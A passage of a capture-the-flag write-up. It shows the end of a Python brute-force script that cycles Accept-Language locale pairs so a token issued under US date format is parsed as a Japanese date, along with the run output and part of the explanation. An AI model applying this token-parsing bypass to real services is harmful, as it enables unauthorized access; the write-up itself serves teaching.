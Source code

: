 ```py
                if not verification_token:
                    continue 
                # Step 2: Claim the product with the parsing locale
                claim_headers = {'Content-Type': 'application/json', 'Accept-Language': parsing_locale}
                claim_body = {'token': verification_token}
                claim_response = session.post(product_url, headers=claim_headers, json=claim_body, timeout=5, verify=False)

                # Check for success (200 OK)
                if claim_response.status_code == 200:
                    print(f"\n[+] Found a working locale combination: Issuer='{issuing_locale}', Parser='{parsing_locale}'")
                

        except (requests.exceptions.RequestException, json.JSONDecodeError):
            # Ignore any network or JSON errors and move to the next pair
            continue
    
    print("\n\n[!] Exhausted all locale pairs in the list without success.")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python solve.py <host>")
        sys.exit(1)
    
    target_host = sys.argv[1]
    solve_challenge(target_host)
```
Running this bruteforce script gives us this:
```
C:\Users\Lenovo\Downloads\private_website\dist>python3 meow.py https://1c29aad8-5acb-40b7-8f3b-8c540de33f55.chall.nnsc.tf/
[*] Target: https://1c29aad8-5acb-40b7-8f3b-8c540de33f55.chall.nnsc.tf/
[*] Beginning locale pair testing. This may take a few minutes...
[22/1024] Testing pair: Issuer 'en-US', Parser 'ja-JP'...
[+] Found a working locale combination: Issuer='en-US', Parser='ja-JP'
```

A working combination was finally discovered: **`en-US`** and **`ja-JP`**.

Here is why this seemingly random pair works perfectly:

1.  **Token Issuing (`Accept-Language: en-US`):** The server uses the American `SHORT` date format, which is `M/d/yy`. For the date of the challenge (August 29, 2025), this generated the string: **`8/29/25`**.

2.  **Token Parsing (`Accept-Language: ja-JP`):** The server now switches its parser to the Japanese `SHORT` date format, which expects a pattern of `y/M/d` (year first).

3.  **The Misinterpretation:** The lenient parser receives the string `8/29/25` and applies the `y/M/d` pattern:
    *   It maps the first number (`8`) to the year (`y`), resulting in **Year 8 AD**.
    *   It maps the second number (`29`) to the month (`M`).
    *   It maps the third number (`25`) to the day (`d`).
